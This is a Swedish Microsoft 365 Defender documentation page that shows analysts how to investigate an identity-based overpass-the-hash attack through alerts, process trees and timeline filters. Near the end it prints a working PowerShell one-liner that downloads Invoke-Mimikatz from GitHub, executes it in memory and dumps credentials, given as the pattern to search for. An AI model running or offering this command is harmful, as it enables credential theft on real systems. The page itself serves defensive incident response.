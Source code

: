 ```yaml
---
title: Exempel på en identitetsbaserad attack
description: Gå igenom en exempelanalys av en identitetsbaserad attack.
keywords: incidenter, varningar, undersöker, korrelation, attack, datorer, enheter, användare, identiteter, identiteter, postlåda, e-post, 365, microsoft, m365, incidentsvar, cyberattack
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: c028289a58247075c33e85d6d6f3797b3ddad7b4
ms.sourcegitcommit: de5fce90de22ba588e75e1a1d2e87e03b9e25ec7
ms.translationtype: MT
ms.contentlocale: sv-SE
ms.lasthandoff: 05/10/2021
ms.locfileid: "52297194"
---
```

# <a name="example-of-an-identity-based-attack"></a>Exempel på en identitetsbaserad attack

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Gäller för:**
- Microsoft 365 Defender

Microsoft Defender för identitet kan hjälpa till att identifiera skadliga försök att avslöja identiteter i organisationen. Eftersom Defender för identitet integreras med Microsoft 365 Defender kan säkerhetsanalytiker se hot som kommer in från Defender för identitet, till exempel misstänkta Netlogon-behörighetsförsök.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Analysera attacken i Microsoft Defender för identitet

Microsoft 365 Med Defender kan analytiker filtrera aviseringar efter identifieringskälla **på fliken** Aviseringar på sidan Incidenter. I följande exempel filtreras identifieringskällan till **Defender för identitet.** 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Exempel på filtrering av identifieringskällan för Defender för identitet":::

Om du **väljer den misstänkta overpass-the-hash-attackvarningen** går du till en sida i Microsoft Cloud App Security som visar mer detaljerad information. Du kan alltid ta reda på mer  om en avisering eller [](https://docs.microsoft.com/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) attack genom att välja Läs mer om den här aviseringstypen för att läsa en beskrivning av attacken samt åtgärdsförslag.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Exempel på misstänkt överpass-hash-attackvarning"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Undersöker samma attack i Microsoft Defender för Endpoint

En analytiker kan också använda Defender för Endpoint om du vill veta mer om aktiviteten på en slutpunkt. Välj incidenten i incidentkön och välj sedan **fliken** Aviseringar. Härifrån kan de även identifiera identifieringskällan. En identifieringskälla som heter Identifiering och åtgärd på slutpunkt det här kallas slutpunktsidentifiering och -svar, som är Defender för Slutpunkt. Härifrån väljer analytikern en avisering som identifieras av Identifiering och åtgärd på slutpunkt.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Exempel på identifiering och svar av slutpunkt i Defender för slutpunkt"::: 

På aviseringssidan visas olika relevant information, till exempel den påverkade enhetens namn, användarnamn, status för automatisk undersökning och aviseringsinformationen. I varningsartikeln visas en visuell representation av processträdet. Processträdet är en hierarkisk representation av överordnade och underordnade processer som är relaterade till aviseringen.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Exempel på ett aviseringsprocessträd i Defender för Slutpunkt"::: 

Varje process kan utökas för att visa ytterligare information. Information som en analytiker kan se är de faktiska kommandon som har angetts som en del av ett skadligt skript, utgående anslutnings-IP-adresser och annan användbar information.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Exempel på processinformation i Defender för Slutpunkt":::
 
Genom att **välja Visa på tidslinjen** kan en analytiker granska nedåt ytterligare för att fastställa den exakta tiden för kompromissen. 

Microsoft Defender för Endpoint kan identifiera många skadliga filer och skript. På grund av många legitima användningsområden för utgående anslutningar, PowerShell och kommandoradsaktivitet anses dock en del aktivitet vara aktiv tills den skapar en skadlig fil eller aktivitet. Därför hjälper användning av tidslinjen analytiker att sätta aviseringen i sitt sammanhang med den omgivande aktiviteten för att fastställa den ursprungliga källan eller tiden för attacken som annars döljs av vanliga filsystem och användaraktivitet. 

För att göra detta skulle en analytiker börja vid tiden för aviseringsidentifiering (i rött) och rulla nedåt bakåt i tiden för att avgöra när den ursprungliga aktiviteten som ledde till den skadliga aktiviteten faktiskt startade. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Exempel på att starta vid tiden för aviseringsidentifiering"::: 

Det är viktigt att förstå och urskilja vanlig aktivitet, till exempel Windows Uppdatera anslutningar, Windows Aktiveringstrafik för betrodd programvara, andra vanliga anslutningar till Microsoft-webbplatser, Internetaktivitet från tredje part, Microsoft Endpoint Configuration Manager-aktivitet och annan aktivitet på misstänkta webbplatser. Ett sätt att uppnå det här är att använda tidslinjefilter. Det finns många filter som kan markera viss aktivitet när du filtrerar bort något som analytikern inte vill visa. 

I bilden nedan har analytikern filtrerats för att endast visa nätverks- och processhändelser. Då kan analytikern se nätverksanslutningar och processer kring händelsen där Anteckningar upprättat en anslutning med en IP-adress, vilket vi också såg i processträdet. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Exempel på hur Anteckningar användes för att skapa en skadlig utgående anslutning"::: 

I den här händelsen Anteckningar en skadlig utgående anslutning. Men ofta används bara iexplorer.exe för att upprätta anslutningar för att ladda ned en skadlig nyttolast eftersom iexplorer.exe vanligtvis anses vara vanlig webbläsaraktivitet.

Ett annat objekt att leta efter på tidslinjen skulle vara PowerShell-användningsområden för utgående anslutningar. Analytikern letar efter lyckade PowerShell-anslutningar med kommandon som följt av en utgående anslutning till `IEX (New-Object Net.Webclient)` en webbplats som är värd för en skadlig fil. 

I följande exempel användes PowerShell till att ladda ned och köra Mimikatz från en webbplats:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
En analytiker kan snabbt söka efter nyckelord genom att skriva in nyckelordet i sökfältet för att endast visa händelser som skapats med PowerShell. 

## <a name="next-step"></a>Nästa steg

Se sökvägen till nätfiskeundersökningen. [](first-incident-path-phishing.md)

## <a name="see-also"></a>Se även

- [Översikt över incidenter](incidents-overview.md)
- [Hantera incidenter](manage-incidents.md)
- [Undersöka incidenter](investigate-incidents.md)
